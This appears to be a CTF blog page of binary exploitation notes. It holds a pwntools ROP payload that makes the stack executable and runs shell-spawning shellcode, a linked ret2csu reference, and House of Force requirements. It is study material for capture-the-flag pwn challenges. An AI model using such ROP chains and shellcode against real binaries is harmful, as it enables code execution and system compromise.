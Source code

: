 ```yaml
---
title: "Binary Exploitation Techniques"
excerpt: Stack and Heap exploitation techniques for pwn challenges in CTFs.
categories: Blog
--- 
```


# ROP

## ret2stack: Making the stack executable
1. Set value of `__stack_prot` to 7
2. Call `_dl_make_stack_executable(__libc_stack_end, __stack_prot)`
3. Jump to shellcode

**Example**
```python
shellcode = asm(shellcraft.sh())

_dl_make_stack_executable = elf.symbols['_dl_make_stack_executable']
__stack_prot = elf.symbols['__stack_prot']
__libc_stack_end = elf.symbols['__libc_stack_end']

payload = 'A'*120
payload += p64(0x0000000000410ca3) # pop rsi ; ret
payload += p64(__stack_prot)
payload += p64(0x00000000004163f4) # pop rax ; ret
payload += p64(0x7)
payload += p64(0x000000000047ff91) # mov qword ptr [rsi], rax ; ret
payload += p64(0x0000000000400696) # pop rdi ; ret
payload += p64(__libc_stack_end)
payload += p64(_dl_make_stack_executable)
payload += p64(0x0000000000451974) # push rsp ; ret
payload += shellcode
```

## ret2csu: Lack of gadgets in x64 
[Link](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html?m=1)

# Heap

## House of Force: Exploiting Top Chunk header to gain nearly-arbitrary write primitive

**Requirements**
* Control of top chunk size, usually through heap overflow
* Full control of size of allocated chunks
